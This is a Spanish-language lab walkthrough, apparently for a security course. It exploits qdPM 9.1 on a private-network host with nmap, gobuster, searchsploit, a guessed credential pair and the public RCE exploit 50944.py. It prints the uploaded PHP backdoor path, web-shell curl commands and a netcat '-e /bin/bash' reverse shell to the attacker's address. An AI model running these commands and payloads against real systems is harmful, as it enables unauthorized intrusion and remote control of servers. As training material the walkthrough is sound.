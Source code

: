 # Walk: PublicExploitsWalkthrough

## Fecha: 07/02/2025
## Host: Ubuntu
## IP: 192.168.227.11
## Objetivo
Reproducir ejecricio de busqueda e implementacion de exploit

---
## Herramientas
1. searchsploit
2. nmap
3. gobuster
4. curl
---
## Procedimiento y comandos
#### Paso 1:  Enumeracion con nmap y gobuster 
1. `nmap -v --open -sV 192.168.227.11 -oN nmap-result.txt`
2. `gobuster dir -u http://192.168.227.11 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt`
#### Paso 2: Buscamos el Exploit con searchsploit
1. De la enumeracion anterior observamos que existe un directorio **/project** con un forumlario de login,
navegamos hacia este directorio y observamos que debajo del formulario nos indica la tecnologia con la que este login esta administrado. _**qdPM 9.1**_
2. Una rapida busqeda en exploitDB revela: [qdPM9.1 Exploit](https://www.exploit-db.com/exploits/50944)
3. Tambien buscamos con **searchsploit**: 
`searchsploit qdPM 9.1` y obtenemos:
```
searchsploit qdPM 9.1                                                 
------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                            |  Path
------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
qdPM 9.1 - 'cfg[app_app_name]' Persistent Cross-Site Scripting                                                                            | php/webapps/48486.txt
qdPM 9.1 - 'filter_by' SQL Injection                                                                                                      | php/webapps/45767.txt
qdPM 9.1 - 'search[keywords]' Cross-Site Scripting                                                                                        | php/webapps/46399.txt
qdPM 9.1 - 'search_by_extrafields[]' SQL Injection                                                                                        | php/webapps/46387.txt
qdPM 9.1 - 'type' Cross-Site Scripting                                                                                                    | php/webapps/46398.txt
qdPM 9.1 - Arbitrary File Upload                                                                                                          | php/webapps/48460.txt
qdPM 9.1 - Remote Code Execution                                                                                                          | php/webapps/47954.py
qdPM 9.1 - Remote Code Execution (Authenticated)                                                                                          | php/webapps/50175.py
qdPM 9.1 - Remote Code Execution (RCE) (Authenticated) (v2)                                                                               | php/webapps/50944.py
qdPM < 9.1 - Remote Code Execution                                                                                                        | multiple/webapps/48146.py
------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
#### Paso 3: Analizar el Exploit
1. El exploit se alinea con lo que buscamos.
2. Esta verificado.
3. Requerimientos del Exploit: **Credenciales validas**

#### Paso 4:  Obtener  credenciales validas para utilizar con el exploit
1. Se genera un ataque de diccionario y obtenemos las credenciales:
`george@AIDevCorp.org:AIDevCorp`
> No se detalla el ataque de diccionario a efectos de que los ataques de diccionario no son parte del modulo en cuestion, y esto es un walkthrough de busqueda y ejecucion de exploits.

#### Paso 5: Implementacion del Exploit  
1. Copiamos el exploit en el directorio de trabajo.
`searchsploit -m 50944`
2. Ejecutamos el exploit contra el direcotrio:
`python3 50944.py -url http://192.168.227.11/project/ -u george@AIDevCorp.org -p AIDevCorp`
```
You are not able to use the designated admin account because they do not have a myAccount page.

The DateStamp is 2025-02-08 02:36 
Backdoor uploaded at - > http://192.168.227.11/project/uploads/users/329679-backdoor.php?cmd=whoami
```
3.  Probamos el web shell obtenido en /project/uploads/users/329679-backdor.php
`curl http://192.168.227.11/project/uploads/users/329679-backdoor.php?cmd=whoami`
- Obtenemos: `www-data`
#### Paso 6: Obtenemos un reverse shell
1. Consultamos si nc esta en el servidor:
`curl http://192.168.227.11/project/uploads/users/329679-backdoor.php --data-urlencode "cmd=which nc"`
2. Levantamos nuestro receptor nc:
`nc -lnvp 6666`
3. Cargamos el payload al endpoint que aloja el backdor:
4. `curl http://192.168.227.11/project/uploads/users/329679-backdoor.php --data-urlencode "cmd=nc -nv 192.168.45.189 6666 -e /bin/bash"`

